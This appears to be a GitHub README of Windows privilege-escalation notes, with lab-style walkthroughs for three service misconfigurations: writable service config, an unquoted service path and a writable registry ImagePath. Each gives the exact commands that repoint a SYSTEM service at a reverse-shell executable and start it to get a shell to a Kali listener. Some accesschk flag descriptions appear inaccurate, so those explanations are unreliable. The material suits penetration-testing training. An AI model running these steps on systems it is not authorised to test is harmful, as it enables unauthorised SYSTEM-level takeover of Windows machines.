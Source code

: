 # windows-hacking









________________________

# Service Exploits - Insecure Service Permissions 

**sc command**

The sc command in Windows is used to 
communicate with the Service Control Manager and services. 
It allows users to query, start, stop, pause, resume, and modify services on the local or a remote computer.

To start a service named "MyService", you can use the following command:
```
sc start MyService
```

_________________________

**Accesschk**


Accesschk is a command-line tool in the Windows Sysinternals suite created by Microsoft that allows users to view the security settings of files, directories, registry keys, and services on a Windows system. It provides a detailed report of the access control lists (ACLs) and permission settings for various objects, helping users to quickly identify any security vulnerabilities or misconfigurations.

Accesschk can be used to audit and troubleshoot permissions on a system, ensuring that only authorized users have access to sensitive resources. It is particularly useful for system administrators and security professionals who need to perform security assessments and ensure compliance with organizational security policies.

Some common use cases for Accesschk include:
- Verifying that a specific user or group has the necessary permissions to access a certain file or directory
- Checking the permissions of a service to determine if it is properly configured
- Identifying potential security risks by discovering overly permissive access controls
- Troubleshooting access issues by comparing the expected permissions with the actual permissions set on an object

Accesschk is a powerful tool that can help improve the security posture of a Windows system by providing valuable insights into its security settings. However, it should be used with caution, as making changes to permissions without understanding the consequences can potentially lead to system instability or security breaches.


______________________

1. accesschk -w Users C:\Program Files\ExampleApp
This command checks the access control permissions for the "Users" group on the ExampleApp folder located at C:\Program Files. It will show the specific permissions that the Users group has on that folder.

2. accesschk -s -q -c HKLM\SOFTWARE
This command checks the security permissions for the HKLM\SOFTWARE registry key. The -s flag specifies that it should recurse into all subkeys, the -q flag suppresses the banner and column headers, and the -c flag specifies that only the key security settings should be displayed.

3. accesschk -uwc "Authenticated Users" C:\Windows\System32
This command checks the specific permissions for the "Authenticated Users" group on the System32 folder in the Windows directory. The -u flag specifies that it should only display specific user or group permissions, and the -w flag specifies displaying the effective access for each object.

4. accesschk -q -o *.dll C:\Windows
This command checks the security permissions for all DLL files in the Windows directory. The -q flag suppresses the banner and column headers, and the -o flag specifies that only objects matching the search pattern should be displayed.

5. accesschk -q -f -s -u Everyone C:\
This command checks the security permissions for all files and folders on the C:\ drive for the "Everyone" group. The -f flag specifies that it should also check file permissions, the -s flag specifies that it should recurse into subdirectories, and the -u flag forces it to display the user/group name for each object.


_______________


**How to get Autority**



Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```
Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):

```
sc qc daclsvc
```

Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start daclsvc
```

_________________

#  Service Exploits - Unquoted Service Path 




Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.
```
sc qc unquotedsvc
```
Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:
```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```
Copy the reverse.exe executable you created to this directory and rename it Common.exe:
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```
net start unquotedsvc
```


SERVICE_START_NAME: LOCALSystem si riferisce al nome dell'account utente utilizzato per avviare un servizio in un sistema operativo Windows. In questo caso, LOCALSystem si riferisce all'account di sistema locale, che ha i diritti e i privilegi più elevati su un computer ed è in grado di accedere a risorse di sistema protette. Quando un servizio viene avviato con questo account, esso ha un elevato livello di controllo e autorizzazione sul sistema.

![Screenshot 2024-03-19 alle 14 44 12](https://github.com/MrMagicalSoftware/windows-hacking/assets/98833112/d9e20c33-3465-4aac-8af5-118c81bc1d32)



# Service Exploits - Weak Registry Permissions 






Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
```
sc qc regsvc
```
Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):
```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```
Overwrite the ImagePath registry key to point to the reverse.exe executable you created:
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```
net start regsvc
```




